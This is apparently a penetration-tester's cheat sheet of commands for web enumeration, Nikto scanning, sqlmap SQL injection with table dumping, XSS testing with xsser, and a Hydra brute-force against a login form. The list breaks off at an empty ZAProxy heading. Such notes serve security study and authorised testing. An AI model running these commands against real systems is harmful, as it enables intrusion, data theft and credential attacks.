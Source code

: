 ###### Web and HTTP Protocol
- `dirb http://IP`
- `curl -X GET IP/URL` -- GET request
- `curl -I IP/URL` -- HEAD request
- `curl -X OPTIONS IP/URL`
- `curl URL --upload-file hello.txt` -- to upload file
###### Directory Enumeration with Gobuster
- `gobuster dir -u URL -w /path/to/wordlist`
- `gobuster dir -u URL -w /path/to/wordlist -b 404,403`
- `gobuster dir -u URL -w /path/to/wordlist -b 404,403 -x .php,.xml,.txt -r`
###### Scanning Web Application with Nikto
- `nikto -h URL`
- `nikto -h URL -Tuning 5 -Display V` -- scan for file inclusion
- `nikto -h URL -Tuning 5 -Display V -o nikto.html -Frmat htm`
###### SQL Injection with SQLMap
- `sqlmap -u "URL" --cookie "" -p title`
- `sqlmap -u "URL" --cookie "" -p title --dbs` -- give database info
- `sqlmap -u "URL" --cookie "" -p title -D [db name] --tables` -- give table info
- `sqlmap -u "URL" --cookie "" -p title -D [db name] -T [table name] --columns` -- give columns info of a particular table
- `sqlmap -u "URL" --cookie "" -p title -D [db name] -T [table name] -C [cloumn,names,to,dump] --dump` -- to give data info
- save the request and pass in sqlmap
	- `sqlmap -r file -p title`
###### XSS Attack with XSSer
- always add XSS in the parameter where you want to test XSS
- `xsser --url "" -p "[add the parameter]"` 
- `xsser --url "" -p "[add the parameter]" --auto`
- `xsser --url "" -p "[add the parameter]" --Fp "<script>alert(0)</script>"`
###### Authenticated XSS Attack with XSSer
- `xsser --url "" -p "[add the parameter]" --cookie=""`  
- `xsser --url "" -p "[add the parameter]" --cookie="" --Fp "<script>alert(0)</script>"`
###### Attacking HTTP Login Form with Hydra
- `hydra -L usernames -P passwords 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"`
###### Attacking HTTP Login Form with ZAProxy
- 